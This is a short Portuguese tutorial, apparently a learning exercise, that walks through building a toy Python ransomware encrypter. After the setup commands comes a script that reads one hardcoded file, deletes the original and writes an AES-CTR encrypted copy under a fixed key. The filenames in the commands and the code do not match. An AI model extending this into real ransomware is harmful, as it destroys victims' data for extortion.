 Projeto python ransomware;

Comandos

mkdir projeto-ransomware

cd projeto-ransomware

touch teste.txt

touch encrypter.py

touch decrypter.py

nano encrypter.py (vai abrir o editor)

import os

import pyaes

## abrir o arquivo a ser criptografado

file_name = "test.txt"
file = open(file_name, "rb")
file_data = file.read()
file.close()

## remover o arquivo original

os.remove(file_name)

## definir a chave de encriptacao

key = b"testeransomwares"
aes = pyaes.AESModeOfOperationCTR(key)

## criptografar o arquivo

crypto_data = aes.encrypt(file_data)

## salvar o arquivo criptografado

new_file = file_name + ".ransomwaretroll"

new_file = open(f'{new_file}','wb')

new_file.write(crypto_data)

new_file.close()

## comandos nano control o para escrever e control x para sair
